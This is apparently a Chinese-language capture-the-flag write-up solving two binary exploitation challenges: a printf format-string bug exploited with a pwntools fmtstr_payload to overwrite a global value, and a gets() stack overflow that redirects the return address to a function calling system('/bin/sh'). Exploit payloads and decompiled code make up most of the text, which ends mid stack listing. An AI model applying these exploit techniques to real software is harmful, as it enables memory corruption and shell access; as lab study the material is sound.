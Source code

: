 [printf格式化字符串漏洞原理解析](https://blog.csdn.net/liucc09/article/details/110142208)

`nptr`和地址`dword_804C044`比较，通过`printf`漏洞改写0x804C044的值即可

```
your name:abcd%10$x
Hello,abcd64636261
```

使用`abcd%N$x`重复输入测试得偏移量N为10，直接用pwntools构造`fmtstr_payload(10,{0x0804C044: 0x12345678})`

```python
sh.sendline(fmtstr_payload(10,{0x0804C044: 0x12345678}))
sh.sendline(str(0x12345678).encode('ascii'))
```

## rip

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

危险函数`gets`，缓冲区距离栈顶`0xF`字节

通过Strings view找到`"/bin/sh"`，被`fun`函数引用；函数地址为`0x401186`

```c
int fun()
{
  return system("/bin/sh");
}
```

### 方法1

由于是64位程序，`rbp`大小为`8`，故`payload = b'a' * (0xf+8) + p64(0x401186)` 但攻击失败。搜索了下是栈对其问题

参考：[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

```python
payload = b'a' * (0xf) + p64(0x401187)
```

### 方法2

Edit ==> functions ==> Stack variable 查看栈视图，发现返回地址在`s+0xF`处

```x86asm
-000000000000000F s               db ?
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004                 db ? ; undefined
-0000000000000003                 db ? ; undefined
```